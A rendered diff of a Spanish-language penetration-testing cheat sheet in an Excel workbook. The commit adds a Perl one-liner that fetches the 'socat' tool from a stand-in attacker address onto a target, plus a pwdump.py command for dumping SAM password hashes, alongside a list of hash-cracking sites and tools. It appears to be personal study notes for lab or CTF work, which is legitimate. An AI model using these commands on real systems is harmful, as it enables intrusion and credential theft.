

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-H43: …Account Mananger
+H43: …Account Mananger (pwdump.py system.backup sam.backup)
-R44: (empty)
+R44: PERL
+R44:T44 merged
-R45: CRYPTOGRAFIA & ENCODE/DECODE
+R45: Comandos
-R45:T45 merged
-S45: (empty)
+S45: Descripcion
-T45: (empty)
+T45: Anotaciones
-R46: Comandos
+R46: perl -e 'use File::Fetch; my $url = "http://10.10.10.10:80/socat"; my $ff = File::Fetch->new(uri=>$url); my $file = $ff->fetch() or die $ff->error'
-S46: Descripcion
+S46: Para descargar archivos con Perl
-T46: Anotaciones
+T46: (empty)
-R47: hashkiller.co.uk
+R47: (empty)
-S47: Base de datos de md5 descifrados.
+S47: (empty)
-R48: Dcode.fr
+R48: (empty)
-S48: Desencriptar hashes, cripter, formulas matematicas, decodificadores….
+S48: (empty)
-R49: Cyberchef
+R49: CRYPTOGRAFIA & ENCODE/DECODE
+R49:T49 merged
-S49: Cifrado, codificación, compresión, entre otros…
+S49: (empty)
-R50: rumkin.com
+R50: Comandos
-S50: Desencryptar vigenere
+S50: Descripcion
-T50: Es un metodo de sustitucion de clave maestra en texto
+T50: Anotaciones
-R51: crackstation
+R51: hashkiller.co.uk
-S51: Para crackear hashes
+S51: Base de datos de md5 descifrados.
-R52: hashes.org
+R52: Dcode.fr
-S52: Para desencriptar hashes
+S52: Desencriptar hashes, cripter, formulas matematicas, decodificadores….
-R53: hashid
+R53: Cyberchef
-S53: En kali para ver una cadena que tipo de hash es
+S53: Cifrado, codificación, compresión, entre otros…
-R54: hashidentifier
+R54: rumkin.com
-S54: Lo mismo
+S54: Desencryptar vigenere
-T54: (empty)
+T54: Es un metodo de sustitucion de clave maestra en texto
-R55: xxd -r -p "archivo"
+R55: crackstation
-S55: Decodea y revierte y nos muestra en texto plano una cadena hexadecimal
+S55: Para crackear hashes
```
Also changed, not shown: 15 edited cells elsewhere in this sheet, sheet Enumeracion & Escaneos, sheet Explotacion & Post-Explotacion, sheet Inyecciones, sheet Interceptadores & Web, cell formats.
